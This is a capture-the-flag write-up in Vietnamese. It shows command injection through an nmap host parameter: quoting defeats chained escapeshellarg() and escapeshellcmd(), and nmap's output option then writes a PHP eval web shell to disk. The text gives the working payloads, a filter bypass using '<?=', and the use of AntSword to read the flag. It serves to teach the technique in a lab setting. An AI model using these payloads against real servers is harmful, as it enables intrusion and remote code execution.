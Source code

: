 ![image](https://github.com/Llam-a/BUUCTF/assets/115911041/203f8271-7f01-458d-864c-18f920aa1d13)

Bài này khá giống bài online tool.Nên mình chỉ làm dựa theo bài đó thôi

Viewsource thì thấy flag nằm ở /flag

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/513f5cd9-65f8-431b-9d75-eb863753cb27)

Đầu tiên, tạo Trojan

Payload: `192.1.1.1 | ' <?php @eval($_POST["hack"]); ?> -oG hack.phtml '`

Mình sử dụng `" "` để có thể bypass escapeshellcmd() và escapeshellarg()

```php
<?php
$host = ' <?php eval($_POST["cmd"]);?> -oN cmd.php ';
    $host = escapeshellarg($host);
    $host = escapeshellcmd($host);
    $command = "nmap ". $host;
    echo $command;
?>

//nmap ' \<\?php eval\(\$_POST\[\"cmd\"\]\)\;\?\> -oN cmd.php '
//nmap ' <?php eval($_POST["cmd"]);?> -oN cmd.php '
```

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/dcbc43c2-797e-42cb-9b2c-c03fe51f227d)

Có vẻ là bị filter, mình thử bỏ `php` thay bằng dấu `=`

Payload: `192.1.1.1 | ' <?= @eval($_POST["hack"]); ?> -oG hack.phtml '`

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/e07a40b3-c893-4777-a931-abb23ce16a9e)

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/4e3e0286-eb6e-4777-b7b0-86104851c78e)

Sau đó dùng antsword để cat/ flag là xong 

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/78268ec4-da3f-435c-829e-a02d720cfe86)


